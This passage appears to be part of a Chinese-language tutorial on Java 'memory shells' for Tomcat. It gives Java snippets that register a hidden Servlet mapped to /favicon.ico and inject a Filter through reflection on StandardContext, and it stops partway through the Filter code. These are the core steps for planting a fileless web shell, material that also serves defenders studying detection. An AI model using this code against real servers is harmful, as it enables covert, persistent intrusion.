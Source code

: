 这里`wrapper.setServletClass`之后，实际上会通过context的类加载器来实例化该Servlet，由于我们的内存马不会在这里面，所以无法直接这样设置，但我们直接设置该`instance`就好。

![StandardWrapper](Java应用内存马/StandardWrapper.png)

Servlet内存马的关键过程如下（Servlet.jsp)：

```java
  	String path = "/favicon.ico";
    Wrapper wrapper = new StandardWrapper();
    wrapper.setServlet(new MyServlet());
    wrapper.setName("MyServlet");
    standardContext.addChild(wrapper);
    // <=tomcat 8 ,tomcat8标记过期， tomcat9删除了该方法
    //standardContext.addServletMapping(path,"MyServlet");
    // >= tomcat 8
    standardContext.addServletMappingDecoded(path,"MyServlet");
```



### 2.3 Filter内存马

根据前面所说的思路，我们也可以找出 Filter Listener内存马的动态注册方法。

Filter内存马关键代码如下（Filter.jsp）：

```java
	field = StandardContext.class.getDeclaredField("filterConfigs");
    field.setAccessible(true);
    Map filterConfigs = (Map) field.get(standardContext);
    if (filterConfigs.get(name) == null) {
        Filter filter = new MyFilter();
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(filterDef.getFilterName());
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
```